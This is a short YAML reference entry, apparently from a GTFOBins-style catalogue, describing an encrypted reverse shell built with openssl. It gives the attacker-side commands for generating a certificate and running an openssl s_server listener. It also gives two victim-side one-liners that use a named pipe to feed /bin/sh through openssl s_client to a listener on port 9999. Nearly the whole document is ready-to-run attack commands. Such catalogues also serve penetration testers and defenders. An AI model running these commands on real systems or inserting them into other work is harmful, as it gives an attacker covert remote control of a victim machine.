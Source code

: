 ```yaml
---
functions:
  shell:
    - description: openssl reverse shell
      code: |
        
        Server (Attacker):
        openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj '/' -batch
        openssl s_server -quiet -key key.pem -cert cert.pem -port 9999

        Reverse Shell (Victim):
        rm -f /tmp/s; mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:9999 > /tmp/s; rm /tmp/s
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|openssl s_client -quiet -connect 127.0.0.1:9999 >/tmp/f
---
```

